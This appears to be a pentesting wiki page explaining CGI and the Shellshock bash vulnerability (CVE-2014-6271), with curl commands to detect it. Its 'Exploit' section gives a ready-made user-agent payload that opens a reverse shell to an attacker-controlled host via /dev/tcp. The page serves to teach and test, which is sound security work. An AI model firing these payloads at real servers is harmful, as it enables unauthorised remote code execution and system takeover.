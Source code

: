 ```yaml
---
menu: CGI
title: CGI - Web Applications Pentesting
---
```


# Common Gateway Interface

## At a Glance

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called `cgi-bin`, to handle the requests correctly and execute the program instead of returning the file content.  [^oreilly-cgi]

## Shellshock

Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) is an Arbitrary Code Execution (ACE) vulnerability that affects Linux and Unix command-line shell, aka the GNU Bourne Again Shell.

GNU Bourne Again Shell, or Bash, is an interpreter that allows users to send commands on Unix and Linux systems, typically by connecting over SSH or Telnet but it can also operate as a parser for CGI scripts.

{{<note>}}
In addition to CGI-based web servers, it also affects OpenSSH servers, DHCP clients, Qmail servers and restricted shells of the IBM Hardware Management Console (IBM HMC)
{{</note>}}

The vulnerability occurs when the variables sent to the server, are passed and interpreted by Bash. This variable involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports the function.


```
Environment variable with
function definition                          Expected command
         +                                          +
         |                                          |
+--------+--------+ +----------------+ +------------+--------------+
| env x='() { :;};| |echo vulnerable'| |bash -c "echo Real command"|
+-----------------+ +-------+--------+ +---------------------------+
                            |
                            +
            Arbitrary command executed by Bash
```

### Test

#### Reflected

```sh
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable | grep vulnerable
```

#### Blind

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

{{<details "Parameters">}}
- `-f`: fail silently on HTTP errors.
- `-s`: silent mode.
- `-H`: pass custom header(s) to server.
{{</details>}}

### Exploit

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

## Further Reading

- [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
- [Wikipedia - Shellshock (software bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[^oreilly-cgi]: Gundavaram, Shishir. “The Common Gateway Interface (CGI).” O’Reilly Media - Technology and Business Training, O’Reilly & Associates, Inc., https://www.oreilly.com/openbook/cgi/ch01_01.html.
